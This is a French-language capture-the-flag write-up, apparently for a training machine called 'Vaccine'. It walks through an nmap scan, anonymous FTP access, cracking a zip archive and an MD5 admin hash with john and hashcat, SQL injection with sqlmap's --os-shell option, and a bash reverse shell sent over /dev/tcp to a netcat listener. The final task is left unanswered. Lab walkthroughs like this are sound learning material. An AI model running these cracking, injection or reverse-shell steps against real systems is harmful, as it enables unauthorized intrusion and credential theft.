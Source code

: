 # VACCINE

## Task 01
Commençons avec notre famux nmap pour voir les port ouvert et les service utiliser!😌

```bash
nmap -sV -sC -p- [IP de la cible]
```

On voit tout de suite la réponse a la première question! le service en plus de SSH et de HTTP ouvert et le service `ftp`. 

---
## Task 02
Sur le quelle on sait que l'on peut ce connecter avec un login `anonymous` et un password `blank`.<br/>

---
## Task 03
Pour répondre a la question 3 on constate qu'un fichier et télécharger dans le service. Ce fichier est le `backup.zip`.

---
## Task 04
On vas donc télécharger ce fichier en commençant par ce connecter au service!! 
```bash
ftp anonymous@[ip de la cible]
```
On valide le passwor sans rien entrer et nous voila connecter! 😈

On passe tout de suite la commande: 
```bash
get backup.zip 
```
Pour pouvoir s'en occuper sur notre machine!<br/>

Et pour suivre et répondre a la question 4 on vas utiliser une comande de john qui vas nour permettre d'obtenir le code hasher de ce fichier pour pouvoir l'unzip.<br/>
On tape donc la commande :
```bash
sudo zip2jhon backup.zip > codefichierzip.txt
```

On lui précise le fichier pour le quelle on veut un hash et la destination (création de fichier avec le hash du code.)

---
## Tash 05
Obtenir le code de l'administrateur a partir de tout ca! On vas donc continuer sur notre lancer et obtenir le code de ce fichier.<br/>

Avec la commande: <br/>

```bash
sudo john --format=pkzip -w ./rockyou.txt codefichierzip.txt
```

Maintenant que c'est fait on obtien le code on vas donc deziper de fichier a la suite de la commande:

```bash
unzip backup.zip
```
Un prompt du password apparait on rentre donc le code obtenu plus tot!!!! <br/>

On voit désormais que l'on a accé a deux fichier distinct le `index.php` et le `style.css` naturelement je me direge vers le fichier php! Et en y regardant de plus pret je constate qu'un mot de passe apparait! 🤤<br/><br/>

Je vais donc de suite sur un outils en ligne qui est `hashes.com` pour identifier ce hash qui est au format `MD5`, <br/>
Puis je créer un fichier.txt pour pouvoir le faire interpreter.

```bash
echo "codeobtenuedansindex" > codeindex.txt
```

Je retourne donc sur ma machine et je vais maintenant utiliser ---> `Hashcat` <--- (pas encore trés bien compris la diiférence entre les deux mais celui ci peut me permettre de donner un format pour résoudre ce hash) Je vais doonc dans help de hashcat et tout en bas il me dit comment utiliser le tools je tape donc : 
```bash
hashcat -a 0 -m 0 codeindex.txt ./rockyou.txt
``` 
`-a`: attack mode. 0 pour straight. <br/>
`-m`: pour préciser le type de hashe. MD5 <br/>
<br/>

Je lance donc la commande et hashcat me dit que la liste n'est pas asser longue. Je relance donc:

```bash
hashcat -a 0 -m 0 codeindex.txt /usr/share/seclists/Password/Common-Credentials/100k-most-used-password.txt
```

Et voila qu'il me donne le password tant voulu celui ci est !!!!!!! qwerty789 😈😈

Et la réponse a la question 5 est la!

--- 
## Task 6

Quelle est l'option qui peut etre passer a sqlmap pour prendre les commande durant une sql injection ? 

```bash
--os-shell
```

---
## Task 07

Il nous faut maintenan trouver un moyen de ce connecter afin de continuer les tache alors comment allons nous faire ? <br/>
Une injection sql évidement car j'ai etait orienter vers ca mais comment procéder ? <br/>

Dur dur une commande m'a était transmise pour faire un sqlmap
```bash
sqlmap -u 'http://[Ip de la cible]/dashboard.php?search=any+query' --cookie="PHPESSID=[valeur du cookie obtenue via cookie editor extension mozzila]"
```

Puis on retape la même chose avec:
```bash
--os-shell
```

Puis on ouvre un ncat sur le port 443:
```bash
nc -lvnp 443
```

Et finalement on envoi une commande qui nous permettra d'obetnir un shell stable:

```bash
bash -c bash -i >& /dev/tcp/[mon adress ip]/443 0>&1
```

Maintenant que je suis connecter je peut faire un:
```bash
sudo -l 
```
Pour obetnir la réponse a la question qui est :
```bash

```
